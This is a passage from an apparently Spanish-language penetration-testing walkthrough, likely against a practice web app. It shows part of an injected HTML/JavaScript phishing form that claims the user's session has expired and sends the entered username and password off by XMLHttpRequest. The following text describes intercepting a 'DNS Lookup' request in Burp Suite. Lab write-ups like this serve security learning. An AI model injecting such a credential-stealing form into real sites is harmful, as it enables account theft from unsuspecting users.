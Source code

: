 ```html
					theForm.parentNode.style.display="none";
				}// end if
			};

			lXMLHTTP.open(lMethod, lAction, true);
			lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
			lXMLHTTP.send(lData);
		}catch(e){
			alert(e.message);
		};
		alert('Thanks! You may continue now.');
		document.getElementById('modal').setAttribute('style', '');
	};//end function
	</script>
	<form>
		<table style="font-weight:bold;">
			<tbody><tr><td colspan="2" style="font-size:20px;">Sorry! Your session has expired.<br><br>Please login again.</td></tr>
			<tr><td colspan="2">&nbsp;</td></tr>
			<tr><td>Username</td><td><input name="username" type="text"></td></tr>
			<tr><td>Password</td><td><input name="password" type="password"></td></tr>
			<tr><td colspan="2" style="text-align:center;"><input type="button" onclick="javascript:capture(this.form);" value="      Submit      "></td></tr>
		</tbody></table>
	</form>
</div>
```

Ahora nos volvemos a nuestro `DNS Lookup`, ponemos la palabra por ejemplo `canario` y con `Burp Suite` a la escucha enciamos la peticion para que la capture `Burp Suite`:

<figure><img src="../../.gitbook/assets/image (87) (1).png" alt=""><figcaption></figcaption></figure>
